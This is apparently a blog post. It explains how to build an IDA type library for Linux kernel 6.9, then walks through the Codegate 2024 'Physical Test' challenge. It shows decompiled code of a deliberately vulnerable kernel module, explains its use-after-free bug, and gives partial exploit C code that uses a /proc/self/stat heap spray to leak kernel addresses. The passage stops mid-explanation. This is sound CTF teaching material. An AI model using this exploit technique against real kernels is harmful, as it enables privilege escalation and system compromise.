Hello and Happy new year!!

Today I will write about building til for IDA. The `Physical Test` challenge is used for exampling.


Why this time? Because I'm too lazy. But now I've not only written the solution for the challenge but also introduced a new way to reverse the Linux module file, which helps you reduce the time it takes to reverse; use that time to pwn.

You can get challenge's files [here](https://github.com/robbert1978/robbert1978.github.io/blob/main/source/assets/PhysicalTest-codegate2024.7z).

# What is TIL

"TIL" stands for "Type Library" . It includes defenitions of many structors, functions that can be used for IDA decompiler.


TIL files often are located on `<IDA Dir>/til`:



You can import a til file to IDA database in `Type Libraries` windows (shortcut: Shitf + F11), press `Ins` to import:




# Build your own TIL

In this tutorial, you have to use Windows and install WSL. If you want to build til file on Linux, try to find other ways by yourself :)/.

You should also have idaclang.exe, libclang.dll, ida.hlp from IDA Pro, and tilib64.exe from IDA SDK.


NOTE: If your working directory is on Windows system, make it case sensitive before doing anything:

```powershell
fsutil.exe file setCaseSensitiveInfo <path> enable
```

## Perpare build tools:

Copy `idaclang.exe`, `libclang.dll`, `ida.hlp` and `tilib64.exe` to your working directory.

In my PC, it is `D:\Kernel_til`.

And you need build the kernel, run on WSL Shell:

```sh
tar xvf linux-6.9.tar.xz
cd linux-6.9
make defconfig
make bzImage -j`nproc`
cd ..
```

(Want to build faster? Build on your WSL/Linux filesystem then copy to working directory later.)

## Prepare the source codes

The challenge uses Linux kernel version `6.9.0`. We can get its source codes [here](https://cdn.kernel.org/pub/linux/kernel/v6.x/linux-6.9.tar.xz).


## Prepare header files

Fist, create `linux-headers` folder. We wil copy many header files from WSL to this folder:

On WSL shell, run: 
```sh
mkdir linux-headers
cd linux-headers
ln -s ../linux-6.9 kernel-headers
cp -LR /usr/lib/gcc/x86_64-linux-gnu/11/include system-headers 
cp -LR /usr/include libc_headers/ 
ln -s libc_headers/ usr_include_headers
cd ..
```

## Create Makefile

First, create a file named `idaclang.mak`:

```Makefile
IDACLANG_ARGS += --idaclang-log-all
IDACLANG_ARGS += --idaclang-tilname $(TIL_NAME)
IDACLANG_ARGS += --idaclang-tildesc $(TIL_DESC)

CLANG_ARGV += -ferror-limit=200

all: $(TIL_NAME)
.PHONY: all $(TIL_NAME) clean
$(TIL_NAME): $(TIL_NAME).til

$(TIL_NAME).til: $(TIL_NAME).mak $(INPUT_FILE)
	./idaclang.exe $(IDACLANG_ARGS) $(CLANG_ARGV) $(INPUT_FILE) > $(TIL_NAME).log
	./tilib64.exe -ls $(TIL_NAME).til > $(TIL_NAME).til.txt

clean:
	rm -rf *.til *.txt *.log
```


Next, create a file named `linux_kernel_6_9_0.mak`:

```make
TIL_NAME = linux_kernel_6_9_0
TIL_DESC = "Linux kernel TIL for 6.9.0"
INPUT_FILE = linux.h
SYSTEM_HEADERS = .\linux-headers\system-headers
KERNEL_HEADERS = .\linux-headers\kernel-headers

CLANG_ARGV = -target x86_64-pc-linux-gnu                               \
             -nostdinc                                                 \
             -isystem "$(SYSTEM_HEADERS)"         \
             -I"$(KERNEL_HEADERS)\arch\x86\include"                      \
             -I"$(KERNEL_HEADERS)\arch\x86\include\generated"            \
             -I"$(KERNEL_HEADERS)\include"                               \
             -I"$(KERNEL_HEADERS)\arch\x86\include\uapi"                 \
             -I"$(KERNEL_HEADERS)\arch\x86\include\generated\uapi"       \
             -I"$(KERNEL_HEADERS)\include\uapi"                          \
             -I"$(KERNEL_HEADERS)\include\generated\uapi"                \
             -D__KERNEL__                                              \
             -O2                                                       \
             -mfentry                                                  \
             -DCC_USING_FENTRY                                         \
             -Wno-gnu-variable-sized-type-not-at-end

include idaclang.mak
```

You can change `TIL_NAME` and `TIL_DESC` as you like.

Write a file `linux.h`, include many headers that you need:

```c
#include <linux/kconfig.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/acpi.h>
#include <linux/fs.h>
#include <linux/efi.h>
#include <linux/bpf.h>
#include <linux/usb.h>
#include <linux/kmod.h>
#include <linux/device.h>
#include <linux/blkdev.h>
#include <linux/sched.h>
#include <linux/fdtable.h>
#include <linux/slab.h>
#include <linux/hash.h>
```

## Build

Run `make -f linux_kernel_6_9_0.mak` on WSL:



If there is no error, there will be a file named `linux_kernel_6_9_0.til`:



Copy it to `<IDA folder>/til`


# Write up for the challenge

## Analyze the module

Open the `.ko` file with IDA

You can see many functions, like `my_mmap`, are annoying:

```c
__int64 __fastcall my_mmap(__int64 a1, __int64 a2)
{
  _QWORD *v2; // r12
  __int64 v3; // rbp
  int v4; // r13d

  v2 = *(_QWORD **)(a1 + 200);
  v3 = *(_QWORD *)(a2 + 24);
  if ( *(_QWORD *)(a2 + 8) - *(_QWORD *)a2 != 12288LL )
    return 4294967274LL;
  v4 = *(_DWORD *)(*(_QWORD *)(a2 + 16) + 232LL);
  if ( v4 != *(_DWORD *)(a2 + 40) )
  {
    down_write(*(_QWORD *)(a2 + 48));
    *(_DWORD *)(a2 + 40) = v4;
    up_write(*(_QWORD *)(a2 + 48));
  }
  *(_QWORD *)(a2 + 32) |= 0x400uLL;
  if ( boot_cpu_data > 3u )
    cachemode2protval(2LL);
  if ( (int)remap_pfn_range(a2, *(_QWORD *)a2, (__int64)(v2[2] - vmemmap_base) >> 6, 4096LL, v3) < 0
    || (int)remap_pfn_range(a2, *(_QWORD *)a2 + 4096LL, (__int64)(*v2 - vmemmap_base) >> 6, 4096LL, v3) < 0
    || (int)remap_pfn_range(a2, *(_QWORD *)a2 + 0x2000LL, (__int64)(v2[1] - vmemmap_base) >> 6, 4096LL, v3) < 0 )
  {
    printk("could not map the address area\n");
    return 4294967291LL;
  }
  else
  {
    backing_vma = a2;
    return 0LL;
  }
}
```

Now open `Type Libiraries` windows and import the til file that we have built before:



We see the type of `my_fops` is ` file_operations`



After loading the til, we have the defention of that type:




We see the defenition of `file_operations.mmap` is:

```c
 int (__cdecl *mmap)(file *, vm_area_struct *);
```

So we can define the my_mmap function is :
```c
int my_mmap(file *, vm_area_struct *)
```

Now we see the pesudo code of `my_mmap` is better:

```c
int __fastcall my_mmap(file *a1, vm_area_struct *a2)
{
  _QWORD *private_data; // r12
  pgprotval_t pgprot; // rbp
  int mm_lock_seq; // r13d

  private_data = a1->private_data;
  pgprot = a2->vm_page_prot.pgprot;
  if ( a2->vm_end - a2->vm_start != 12288 )
    return -22;
  mm_lock_seq = a2->vm_mm->mm_lock_seq;
  if ( mm_lock_seq != a2->vm_lock_seq )
  {
    down_write(&a2->vm_lock->lock);
    a2->vm_lock_seq = mm_lock_seq;
    up_write(&a2->vm_lock->lock);
  }
  a2->__vm_flags |= 0x400uLL;
  if ( boot_cpu_data.x86 > 3u )
    cachemode2protval(_PAGE_CACHE_MODE_UC_MINUS);
  if ( remap_pfn_range(a2, a2->vm_start, (__int64)(private_data[2] - vmemmap_base) >> 6, 0x1000uLL, (pgprot_t)pgprot) < 0
    || remap_pfn_range(
         a2,
         a2->vm_start + 4096,
         (__int64)(*private_data - vmemmap_base) >> 6,
         0x1000uLL,
         (pgprot_t)pgprot) < 0
    || remap_pfn_range(
         a2,
         a2->vm_start + 0x2000,
         (__int64)(private_data[1] - vmemmap_base) >> 6,
         0x1000uLL,
         (pgprot_t)pgprot) < 0 )
  {
    printk("could not map the address area\n");
    return -5;
  }
  else
  {
    backing_vma = a2;
    return 0;
  }
}
```

Do the same with `my_read` , `my_write`, `my_open` and `my_release`.

Also, I added struct called `Private`, used for `file->private_data` (its default type is `void *` ).

```c

struct Private
{
  page *page1;
  page *page2;
  page *page3;
  page *page4;
};


Struct Buf{
    uint size;
    uint data[];
};

int __fastcall my_open(inode *a1, file *a2)
{
  Private *v2; // rbp
  page *v3; // rax
  page *v4; // rax
  _QWORD *v5; // rcx
  page *v6; // rax
  _QWORD *v7; // rcx
  page *v8; // rax
  _QWORD *v9; // rcx
  int result; // eax

  v2 = (Private *)kmalloc_trace(kmalloc_caches[0][5], 0xDC0u, 0x20uLL);
  v3 = alloc_pages(0xCC0u, 0);
  v2->page3 = v3;
  if ( !v3 )
    goto LABEL_7;
  v4 = alloc_pages(0xCC0u, 0);
  v2->page1 = v4;
  if ( !v4 )
    goto LABEL_7;
  v5 = (_QWORD *)(page_offset_base + ((__int64)((__int64)v4 - vmemmap_base) >> 6 << 12));
  *v5 = 0LL;
  v5[511] = 0LL;
  memset(
    (void *)((unsigned __int64)(v5 + 1) & 0xFFFFFFFFFFFFFFF8LL),
    0,
    8LL * (((unsigned int)v5 - (((_DWORD)v5 + 8) & 0xFFFFFFF8) + 4096) >> 3));
  v6 = alloc_pages(0xCC0u, 0);
  v2->page2 = (__int64)v6;
  if ( !v6 )
  {
    _free_pages(v2->page1, 0);
LABEL_7:
    kfree(v2);
    return -12;
  }
  v7 = (_QWORD *)(page_offset_base + ((__int64)((__int64)v6 - vmemmap_base) >> 6 << 12));
  *v7 = 0LL;
  v7[511] = 0LL;
  memset(
    (void *)((unsigned __int64)(v7 + 1) & 0xFFFFFFFFFFFFFFF8LL),
    0,
    8LL * (((unsigned int)v7 - (((_DWORD)v7 + 8) & 0xFFFFFFF8) + 4096) >> 3));
  v8 = alloc_pages(0xCC0u, 0);
  v2->page4 = (__int64)v8;
  if ( v8 )
  {
    v9 = (_QWORD *)(page_offset_base + ((__int64)((__int64)v8 - vmemmap_base) >> 6 << 12));
    *v9 = 0LL;
    v9[511] = 0LL;
    memset(
      (void *)((unsigned __int64)(v9 + 1) & 0xFFFFFFFFFFFFFFF8LL),
      0,
      8LL * (((unsigned int)v9 - (((_DWORD)v9 + 8) & 0xFFFFFFF8) + 4096) >> 3));
    qmemcpy((void *)(page_offset_base + ((__int64)(v2->page4 - vmemmap_base) >> 6 << 12)), "{codegate2024}", 14);
    result = 0;
    a2->private_data = v2;
  }
  else
  {
    _free_pages(0LL, 0);
    kfree(v2);
    return -12;
  }
  return result;
}

int __fastcall my_release(inode *a1, file *a2)
{
  Private *private_data; // rbp
  page *page3; // rcx
  _QWORD *v4; // rcx
  _QWORD *v5; // rcx
  page *page2; // rcx
  _QWORD *v7; // rcx
  page *page4; // rcx
  _QWORD *v9; // rcx

  private_data = a2->private_data;
  if ( private_data )
  {
    page3 = private_data->page3;
    if ( page3 )
    {
      v4 = (_QWORD *)(page_offset_base + ((__int64)((__int64)page3 - vmemmap_base) >> 6 << 12));
      *v4 = 0LL;
      v4[511] = 0LL;
      memset(
        (void *)((unsigned __int64)(v4 + 1) & 0xFFFFFFFFFFFFFFF8LL),
        0,
        8LL * (((unsigned int)v4 - (((_DWORD)v4 + 8) & 0xFFFFFFF8) + 4096) >> 3));
      _free_pages(private_data->page3, 0);
      private_data->page3 = 0LL;
    }
    if ( private_data->page1 )
    {
      v5 = (_QWORD *)(page_offset_base + ((__int64)((__int64)private_data->page1 - vmemmap_base) >> 6 << 12));
      *v5 = 0LL;
      v5[511] = 0LL;
      memset(
        (void *)((unsigned __int64)(v5 + 1) & 0xFFFFFFFFFFFFFFF8LL),
        0,
        8LL * (((unsigned int)v5 - (((_DWORD)v5 + 8) & 0xFFFFFFF8) + 4096) >> 3));
      _free_pages(private_data->page1, 0);
      private_data->page1 = 0LL;
    }
    page2 = private_data->page2;
    if ( page2 )
    {
      v7 = (_QWORD *)(page_offset_base + ((__int64)((__int64)page2 - vmemmap_base) >> 6 << 12));
      *v7 = 0LL;
      v7[511] = 0LL;
      memset(
        (void *)((unsigned __int64)(v7 + 1) & 0xFFFFFFFFFFFFFFF8LL),
        0,
        8LL * (((unsigned int)v7 - (((_DWORD)v7 + 8) & 0xFFFFFFF8) + 4096) >> 3));
      _free_pages(private_data->page2, 0);
      private_data->page2 = 0LL;
    }
    page4 = private_data->page4;
    if ( page4 )
    {
      v9 = (_QWORD *)(page_offset_base + ((__int64)((__int64)page4 - vmemmap_base) >> 6 << 12));
      *v9 = 0LL;
      v9[511] = 0LL;
      memset(
        (void *)((unsigned __int64)(v9 + 1) & 0xFFFFFFFFFFFFFFF8LL),
        0,
        8LL * (((unsigned int)v9 - (((_DWORD)v9 + 8) & 0xFFFFFFF8) + 4096) >> 3));
      _free_pages(private_data->page4, 0);
      private_data->page4 = 0LL;
    }
    kfree(private_data);
    if ( backing_vma )
    {
      zap_vma_ptes(backing_vma, backing_vma->vm_start, 0x3000uLL);
      backing_vma = 0LL;
    }
  }
  return 0;
}


__int64 __fastcall my_read(file *a1, char *userBuf, size_t size, loff_t *a4)
{
  Private *private_data; // rax
  page *page2; // rsi
  bool v8; // zf
  __int64 result; // rax

  private_data = a1->private_data;
  if ( !private_data->page1 )
    return 0LL;
  page2 = private_data->page2;
  if ( !page2 )
    return 0LL;
  if ( size > 0x1000 )
    return -22LL;
  v8 = copy_to_user(
         userBuf,
         (const void *)(page_offset_base + ((__int64)((__int64)page2 - vmemmap_base) >> 6 << 12)),
         size) == 0;
  result = -14LL;
  if ( v8 )
    return size;
  return result;
}


__int64 __fastcall my_write(file *a1, const char *a2, size_t a3, loff_t *a4)
{
  Private *private_data; // r12
  unsigned __int64 v5; // r15
  __int64 *v6; // rbp
  Buf **v7; // rbx
  Buf **v8; // r13
  Buf **v9; // rbx
  __int64 i; // rax
  int v11; // esi
  __int64 v12; // rax
  Buf **v13; // r10
  __int64 *v14; // rdi
  __int64 v15; // rdx
  __int64 v16; // rcx
  Buf **v17; // r11
  const char *v18; // rcx
  int v19; // eax
  int v20; // r15d
  const void *v21; // rdi
  int v22; // esi
  unsigned __int64 v23; // rax
  page *page3; // rax
  _QWORD *v26; // rax
  _QWORD *v27; // rax
  page *page2; // rax
  _QWORD *v29; // rax
  const void *v30; // rdi
  unsigned __int64 v31; // rax
  signed __int64 v32; // [rsp+0h] [rbp-58h]
  const char *v33; // [rsp+8h] [rbp-50h]
  Buf **v34; // [rsp+10h] [rbp-48h]

  private_data = a1->private_data;
  if ( !private_data->page1 || !private_data->page2 || a3 > 0x700 )
    return 0LL;
  v5 = copy_from_user(
         (void *)(page_offset_base + ((__int64)((__int64)private_data->page1 - vmemmap_base) >> 6 << 12)),
         a2,
         a3);
  if ( v5 )
    return -14LL;
  v33 = (const char *)(((__int64)((__int64)private_data->page1 - vmemmap_base) >> 6 << 12) + page_offset_base);
  v6 = (__int64 *)(page_offset_base + ((__int64)((__int64)private_data->page2 - vmemmap_base) >> 6 << 12));
  v32 = strlen(v33);
  v34 = (Buf **)kmalloc_large(0x4008uLL, 0xDC0u);
  v7 = v34;
  v8 = v34 + 2049;
  do
    *v7++ = (Buf *)kmalloc_large(0x2004uLL, 0xDC0u);
  while ( v8 != v7 );
  v9 = v34;
  for ( i = 0LL; i != 2049; ++i )
    v34[i]->idx = i;
  do
  {
    (*v34)[v5].idx = v5;
    ++v5;
  }
  while ( v5 != 801 );
  v11 = 1;
  v12 = 1LL;
  while ( 1 )
  {
    v13 = &v34[v12];
    v14 = v6;
    v15 = 1LL;
    v16 = v11 - 1;
    v17 = &v34[v16];
    v18 = &v33[v16];
    do
    {
      v19 = (*v13)[v15 - 1].idx + 1;
      if ( (signed int)((*v17)[v15].idx + 1) <= v19 )
        v19 = (*v17)[v15].idx + 1;
      if ( v19 > (signed int)((*v17)[v15 - 1].idx + (*v18 != *(_BYTE *)v14)) )
        v19 = (*v17)[v15 - 1].idx + (*v18 != *(_BYTE *)v14);
      v14 = (__int64 *)((char *)v14 + 1);
      (*v13)[v15++].idx = v19;
    }
    while ( v15 != 1793 );
    if ( v11 > 1792 && private_data )
      break;
    v12 = ++v11;
    if ( v11 == v32 + 1 )
    {
      v20 = v34[v32]->data[1791];
      do
      {
        v21 = *v9++;
        kfree(v21);
      }
      while ( v8 != v9 );
      kfree(v34);
      v22 = 1792;
      *v6 = 0LL;
      v6[511] = 0LL;
      if ( v32 >= 1792 )
        v22 = v32;
      memset(
        (void *)((unsigned __int64)(v6 + 1) & 0xFFFFFFFFFFFFFFF8LL),
        0,
        8LL * (((unsigned int)v6 - (((_DWORD)v6 + 8) & 0xFFFFFFF8) + 4096) >> 3));
      sprintf((char *)v6, "Similarity: %lld.%03lld", (v20 << 12) / v22 / 1000LL, (v20 << 12) / v22 % 1000LL);
      v23 = page_offset_base + ((__int64)((__int64)private_data->page4 - vmemmap_base) >> 6 << 12);
      *(_QWORD *)(v23 + 256) = 0LL;
      *(_QWORD *)(v23 + 2296) = 0LL;
      memset(
        (void *)((v23 + 264) & 0xFFFFFFFFFFFFFFF8LL),
        0,
        8LL * (((unsigned int)v23 - (((_DWORD)v23 + 264) & 0xFFFFFFF8) + 2304) >> 3));
      return a3;
    }
  }
  page3 = private_data->page3;
  if ( page3 )
  {
    v26 = (_QWORD *)(page_offset_base + ((__int64)((__int64)page3 - vmemmap_base) >> 6 << 12));
    *v26 = 0LL;
    v26[511] = 0LL;
    memset(
      (void *)((unsigned __int64)(v26 + 1) & 0xFFFFFFFFFFFFFFF8LL),
      0,
      8LL * (((unsigned int)v26 - (((_DWORD)v26 + 8) & 0xFFFFFFF8) + 4096) >> 3));
    _free_pages(private_data->page3, 0);
    private_data->page3 = 0LL;
  }
  if ( private_data->page1 )
  {
    v27 = (_QWORD *)(page_offset_base + ((__int64)((__int64)private_data->page1 - vmemmap_base) >> 6 << 12));
    *v27 = 0LL;
    v27[511] = 0LL;
    memset(
      (void *)((unsigned __int64)(v27 + 1) & 0xFFFFFFFFFFFFFFF8LL),
      0,
      8LL * (((unsigned int)v27 - (((_DWORD)v27 + 8) & 0xFFFFFFF8) + 4096) >> 3));
    _free_pages(private_data->page1, 0);
    private_data->page1 = 0LL;
  }
  page2 = private_data->page2;
  if ( page2 )
  {
    v29 = (_QWORD *)(page_offset_base + ((__int64)((__int64)page2 - vmemmap_base) >> 6 << 12));
    *v29 = 0LL;
    v29[511] = 0LL;
    memset(
      (void *)((unsigned __int64)(v29 + 1) & 0xFFFFFFFFFFFFFFF8LL),
      0,
      8LL * (((unsigned int)v29 - (((_DWORD)v29 + 8) & 0xFFFFFFF8) + 4096) >> 3));
    _free_pages(private_data->page2, 0);
    private_data->page2 = 0LL;
  }
  if ( backing_vma )
  {
    zap_vma_ptes(backing_vma, backing_vma->vm_start, 0x3000uLL);
    backing_vma = 0LL;
  }
  do
  {
    v30 = *v9++;
    kfree(v30);
    *(v9 - 1) = 0LL;
  }
  while ( v8 != v9 );
  kfree(v34);
  v31 = page_offset_base + ((__int64)((__int64)private_data->page4 - vmemmap_base) >> 6 << 12);
  *(_QWORD *)(v31 + 256) = 0LL;
  *(_QWORD *)(v31 + 2296) = 0LL;
  memset(
    (void *)((v31 + 264) & 0xFFFFFFFFFFFFFFF8LL),
    0,
    8LL * (((unsigned int)v31 - (((_DWORD)v31 + 264) & 0xFFFFFFF8) + 2304) >> 3));
  return a3;
}


int __fastcall my_mmap(file *a1, vm_area_struct *a2)
{
  Private *private_data; // r12
  pgprotval_t pgprot; // rbp
  int mm_lock_seq; // r13d

  private_data = a1->private_data;
  pgprot = a2->vm_page_prot.pgprot;
  if ( a2->vm_end - a2->vm_start != 12288 )
    return -22;
  mm_lock_seq = a2->vm_mm->mm_lock_seq;
  if ( mm_lock_seq != a2->vm_lock_seq )
  {
    down_write(&a2->vm_lock->lock);
    a2->vm_lock_seq = mm_lock_seq;
    up_write(&a2->vm_lock->lock);
  }
  a2->__vm_flags |= 0x400uLL;
  if ( boot_cpu_data.x86 > 3u )
    cachemode2protval(_PAGE_CACHE_MODE_UC_MINUS);
  if ( remap_pfn_range(
         a2,
         a2->vm_start,
         (__int64)((__int64)private_data->page3 - vmemmap_base) >> 6,
         0x1000uLL,
         (pgprot_t)pgprot) < 0
    || remap_pfn_range(
         a2,
         a2->vm_start + 4096,
         (__int64)((__int64)private_data->page1 - vmemmap_base) >> 6,
         0x1000uLL,
         (pgprot_t)pgprot) < 0
    || remap_pfn_range(
         a2,
         a2->vm_start + 0x2000,
         (__int64)((__int64)private_data->page2 - vmemmap_base) >> 6,
         0x1000uLL,
         (pgprot_t)pgprot) < 0 )
  {
    printk("could not map the address area\n");
    return -5;
  }
  else
  {
    backing_vma = a2;
    return 0;
  }
}
```

### What does it do

1.  In `my_mmap` function, we see it maps directly our userspace page to three physical page.

    [vm_start, vm_start+0x1000) -> page3
    [vm_start+0x1000, vm_start+0x2000) -> page1
    [vm_start+0x2000, vm_start+0x3000) -> page2

    Also saved the vm_are_struct object to global variable `backing_vma`.

1. We can read the page2 via `my_read`, not only via `[vm_start+0x1000, vm_start+0x2000)`

1. Function `my_write` is so annoying, but now we just need to know we can write to the page1 throught this function, AND it releases 4 page bjects that allocated from `my_open`. It also unmap our userspace page via global variable `backing_vma`.

3. Function `my_release` release 4 page objects that allocated from `my_open`. It also unmap our userspace page via global variable `backing_vma`.

## The bug

Do you noticed that the module saves and checks vm_are_struct object by a global variable.

What if we open the dev file two times ( we will have 2 fds ) and mmap with two fds ?

```c
    int devfd1 = open(devfile, O_RDWR);
    int devfd2 = open(devfile, O_RDWR);

    int ran = open("/dev/urandom", O_RDONLY);

    int fds[0x3000 / 0x20] = { 0 };
    uint i = 0;

    char buf[0x321];
    read(ran, buf, sizeof(buf));
    buf[0] = 0;

    m1 = mmap((void*)0x1337000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd1, 0);
    if (m1 == MAP_FAILED) {
        panic("mmap(m1)");
    }

    m1[0] = 'A';
    m1[0x1000] = 'B';
    m1[0x2000] = 'C';

    m2 = mmap((void*)0x1347000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd2, 0);
    if (m2 == MAP_FAILED) {
        panic("mmap(m2)");
    }

    m2[0] = 'A';
    m2[0x1000] = 'B';
    m2[0x2000] = 'C';
```

The second `mmap` calls `my_mmap`, this time it will clean the previous vm_are_struct object by writing the new object to `backing_vma`.

So after this, we call `my_write` with `write(devfd1, buf, sizeof(buf));`, 4 pages of file1->private_data will be released BUT `backing_vma` is now contains vm_are_struct object of file2, we still can access 0x1337000->0x133a000 even 3 pages are freed -> Use-after-free.

## Exploit

### Leak text and heap address
So after trigger Use-after-free, I try to heap spray by open `/proc/self/stat` many times:

```c
    pin_cpu(0);
    save_state();

    int devfd1 = open(devfile, O_RDWR);
    int devfd2 = open(devfile, O_RDWR);
    // int devfd3 = open(devfile, O_RDWR);


    int ran = open("/dev/urandom", O_RDONLY);

    int fds[0x3000 / 0x20] = { 0 };
    uint i = 0;

    char buf[0x321];
    read(ran, buf, sizeof(buf));
    buf[0] = 0;

    m1 = mmap((void*)0x1337000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd1, 0);
    if (m1 == MAP_FAILED) {
        panic("mmap(m1)");
    }

    m1[0] = 'A';
    m1[0x1000] = 'B';
    m1[0x2000] = 'C';

    m2 = mmap((void*)0x1347000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd2, 0);
    if (m2 == MAP_FAILED) {
        panic("mmap(m2)");
    }

    m2[0] = 'A';
    m2[0x1000] = 'B';
    m2[0x2000] = 'C';

    usleep(1000);
    pin_cpu(0);

    for (uint i = 0; i < 9;++i)
        open("/proc/self/stat", O_RDONLY);

    write(devfd1, buf, sizeof(buf));

    for (i = 0; i < 0x3000 / 0x20; ++i) {
        fds[i] = open("/proc/self/stat", O_RDONLY);
        if (fds[i] < 0)
            panic("spray open");
    }

    uint64_t proc_single_file_operations = *(uint64_t*)(0x13380b0);
    uint64_t victim_chunk = *(uint64_t*)(0x1337048);
```

After sometimes running and debugging, I see that address `0x13380b0` often dups with `struct flip` (quiet strange because I would think it should be `struct file_operations`)

This address must be in a `seq_file` object, use `search-pattern` with heap address `0xffff8880048a90b0`, you will find `seq_file` object:

